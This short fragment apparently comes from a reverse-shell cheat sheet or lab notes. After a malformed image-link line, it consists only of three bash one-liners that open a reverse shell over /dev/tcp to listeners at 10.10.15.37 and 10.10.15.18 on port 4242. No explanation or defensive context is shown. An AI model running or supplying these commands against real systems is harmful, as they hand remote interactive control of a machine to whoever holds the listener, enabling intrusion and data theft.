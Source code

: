 ```sh
bash -i >& /dev/tcp/10.10.15.37/4242 0>&1
```

```sh
0<&196;exec 196<>/dev/tcp/10.10.15.37/4242; sh <&196 >&196 2>&196
```

```sh
/bin/bash -l > /dev/tcp/10.10.15.18/4242 0<&1 2>&1
```

